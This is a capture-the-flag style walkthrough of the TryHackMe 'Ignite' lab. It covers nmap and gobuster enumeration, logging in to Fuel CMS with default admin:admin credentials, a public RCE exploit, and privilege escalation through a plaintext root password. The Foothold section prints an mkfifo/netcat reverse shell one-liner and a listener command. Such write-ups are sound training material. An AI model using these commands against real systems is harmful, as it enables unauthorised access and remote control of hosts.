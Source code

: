 ```yaml
---
title: "TryHackMe - Ignite"
author: Nasrallah
description: ""
date: 2022-03-21 00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, rce, exploit]
#img_path: /assets/img/tryhackme
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Ignite](https://tryhackme.com/room/ignite) from [TryHackMe](https://tryhackme.com), and easy machine where we find a CMS vulnerable to RCE, we use an exploit to help us get a reverse shell on the machine, then we look through the CMS files to find a plain text password of root.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Nmap scan report for 10.10.89.94
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

We only have port 80 open, and there is a robots.txt file, let's run a directory scan while we go check the webpage.

## WebPage

Let's navigate to the webpage.

![webpage](/assets/img/tryhackme/ignite/igniteweb.png)

We have Fuel CMS with version 1.4 running on the webserver. There is nothing else, let's check what we got from the directory scan.

## Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.239.131/assets/]
/home                 (Status: 200) [Size: 16597]                                 
/index                (Status: 200) [Size: 16597]                                 
/index.php            (Status: 200) [Size: 16597]                                 
/lost+found           (Status: 400) [Size: 1134]                                  
/offline              (Status: 200) [Size: 70]                                    
/robots.txt           (Status: 200) [Size: 30]                                    
/server-status        (Status: 403) [Size: 301]                                   
===============================================================
```
Let's navigate to **/robots.txt**.

![robts](/assets/img/tryhackme/ignite/robots.png)

There is 1 disallowed entry, **/fuel**, let's see what there.

![login](/assets/img/tryhackme/ignite/loginpage.png)

We found a login page for **fuelcms**, let's see if we can get in by submitting some knows credentials.

![panle](/assets/img/tryhackme/ignite/panel.png)

I managed to login using **admin:admin**

Let's check if there is any exploit for this version of fuel cms.

![exploit](/assets/img/tryhackme/ignite/ignitexploitdb.png)

We found 3 RCE exploit, let's download one of the exploit and try run some commands. I will be using this [exploit](https://www.exploit-db.com/exploits/50477).

# **Foothold**

Let's run the exploit now.

![rce](/assets/img/tryhackme/ignite/rce.png)

We are able now to execute code on the machine, let's get a proper shell.

First, setup a listener on your attacking machine(`nc -lnvp 9001`) and execute the following command on the RCE prompt `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f`
>NOTE: Change the ip address on the command

![rce](/assets/img/tryhackme/ignite/mkfifo.png)

![rce](/assets/img/tryhackme/ignite/shell.png)

I used the python import pty trick to stabilize my shell.

# **Privilege Escalation**

For Privilege Escalation, i uploaded linpeas to the machine to do the scan for me.

![wget](/assets/img/tryhackme/ignite/wget.png)

Let's run the script and see what it will find.

![rootpass](/assets/img/tryhackme/ignite/rootpass.png)

There is a root password in plain text in one of the file of the application. Let's see if it works.

![root](/assets/img/tryhackme/ignite/root.png)

Great! The password worked and we got root access.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
